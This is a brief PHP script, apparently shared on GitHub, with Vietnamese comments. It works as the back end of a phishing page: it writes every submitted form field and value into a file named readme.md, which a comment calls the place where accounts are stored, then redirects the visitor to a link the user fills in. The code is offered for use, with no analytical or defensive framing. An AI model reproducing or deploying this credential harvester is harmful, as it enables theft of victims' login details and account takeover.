 <?php
header("Location: http:// "); //nhập link các bạn muốn chuyển đến 
$handle = fopen("readme.md", "a");//nơi lưu tài khoản
foreach($_POST as $variable => $value) {
fwrite($handle, $variable);
fwrite($handle, "=");
fwrite($handle, $value);
fwrite($handle, "\r\n");
}
fwrite($handle, "\r\n");
fclose($handle);
exit;
?>

